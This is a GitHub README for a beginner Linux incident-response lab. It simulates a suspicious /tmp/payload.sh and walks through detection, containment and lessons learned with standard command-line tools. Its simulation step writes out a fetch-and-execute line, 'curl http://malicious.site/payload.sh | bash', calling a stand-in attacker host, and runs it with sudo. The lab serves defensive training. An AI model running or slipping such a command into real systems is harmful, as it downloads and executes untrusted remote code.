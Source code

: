 # 🐧🚨 Day 12 – Suspicious Bash Script Execution (Linux IR)

![GitHub last commit](https://img.shields.io/github/last-commit/BecomingCyber/suspicious-bash-lab-day12?style=flat-square)
![GitHub repo size](https://img.shields.io/github/repo-size/BecomingCyber/suspicious-bash-lab-day12?style=flat-square)
![GitHub](https://img.shields.io/github/license/BecomingCyber/suspicious-bash-lab-day12?style=flat-square)
![GitHub issues](https://img.shields.io/github/issues/BecomingCyber/suspicious-bash-lab-day12?style=flat-square)
[![LinkedIn](https://img.shields.io/badge/-LinkedIn-0072b1?style=flat-square&logo=linkedin&logoColor=white)](https://www.linkedin.com/in/mozella-mccoy-flowers)


This hands-on lab simulates and investigates a suspicious bash script (`payload.sh`) executed on a Linux system. Students walk through key phases of the incident response lifecycle using real terminal-based investigation techniques.

---

## 🎯 Objective

To detect, analyze, and respond to a suspicious script placed in the `/tmp` directory, simulating a basic compromise scenario. This exercise strengthens skills in forensic triage, process analysis, and threat containment on Linux.

---

## 📌 Scenario

Your monitoring tool detects a suspicious file `/tmp/payload.sh` attempting to connect to an unknown external domain. You are tasked with investigating this incident using standard Linux command-line tools.

---

## 🛠️ Lab Setup

- **OS Tested:** Kali Linux / Ubuntu 20.04+
- **Tools Required:** `bash`, `curl`, `ps`, `grep`, `find`, `crontab`, `nano`, `auditd` (optional)
- **Permissions:** `sudo` required

---

## 🧪 Simulation Commands

```bash
# Simulate attack script creation
echo -e '#!/bin/bash\ncurl http://malicious.site/payload.sh | bash' | sudo tee /tmp/payload.sh > /dev/null
sudo chmod +x /tmp/payload.sh

# Simulate script execution
sudo bash /tmp/payload.sh &
```

## 🔍 Investigation Steps
🔹 Phase 1: Detection & Analysis
```bash
ps aux | grep '[c]url'                 # Check for active curl processes
sudo find /tmp -name "*.sh"           # Locate suspicious scripts
grep payload.sh ~/.bash_history       # Look for executed command in history
history | grep payload                # Alternate history check
crontab -l                            # Check user crontab
sudo grep -r "payload.sh" /etc/cron*  # Look for persistence via cron
```

🔹 Phase 2: Containment & Eradication
```bash
sudo pkill curl                       # Kill the process
sudo rm -f /tmp/payload.sh           # Delete the script
crontab -e                            # Inspect & clean crontab
sudo systemctl restart cron          # Restart affected services
```
📝 Key Findings

| Aspect             | Result                                                   |
|--------------------|----------------------------------------------------------|
| Script Location    | `/tmp/payload.sh`                                        |
| Behavior           | Used `curl` to download and execute external code        |
| Execution Evidence | Found in `.bash_history`                                 |
| Persistence        | No `crontab` entries or scheduled tasks detected         |
| Action Taken       | Script removed, process killed                           |

## 🔍 Observations & Learnings

- Detected a suspicious script (`/tmp/payload.sh`) attempting to download and execute a remote payload using `curl`.
- Observed how malicious scripts often abuse writable directories like `/tmp` for staging and execution.
- Learned to investigate incidents using key Linux tools such as `ps`, `grep`, `find`, `crontab`, and `.bash_history`.
- Verified there was **no persistence** via user or system crontab.
- Practiced proper incident response steps: detect → analyze → contain → eradicate → document.
- Reinforced the importance of:
  - Mounting `/tmp` with `noexec`
  - Monitoring logs and file changes (AIDE)
  - Educating users on script execution risks
- This exercise provided a realistic, beginner-friendly simulation of Linux incident response — focusing on command-line triage skills essential for SOC analysts.
